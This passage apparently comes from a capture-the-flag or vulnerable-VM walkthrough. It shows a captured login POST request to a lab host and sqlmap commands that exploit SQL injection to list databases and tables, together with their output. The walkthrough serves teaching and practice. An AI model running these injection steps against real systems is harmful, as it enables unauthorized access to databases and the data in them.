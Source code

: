 ~~~
Fatal error: Call to undefined function add_action() in /opt/wordpress-4.1-0/apps/wordpress/htdocs/wp-content/plugins/hello.php on line 60
~~~

After some googling on this `hello.php` file on WordPress, I found out that it belongs to a plugin called Hello Dolly.

### Gaining Access

For `/login.php`, I'm using sqlmap to exploit the SQL injection vulnerability. Since it's a POST request and it's a bit bothersome to manually craft a POST request in sqlmap, I use Burp Suite to interrupt the POST request and put the content in a file called `request.txt`.

~~~
POST /login.php HTTP/1.1
Host: 192.168.0.104
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.104/login.php
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

user=testing&password=testing&s=Submit
~~~

Then, I run sqlmap using this `request.txt` file as the request content.

~~~
$ ./sqlmap.py -r request.txt --dbs
~~~

It returned the list of databases in the system.

~~~
available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080
~~~

Let's try checking out the `wordpress8080` database's tables.

~~~
$ ./sqlmap.py -r request.txt -D wordpress8080 --tables
~~~

It only have `users` table.

~~~
Database: wordpress8080
[1 table]
+-------+
| users |
+-------+
~~~
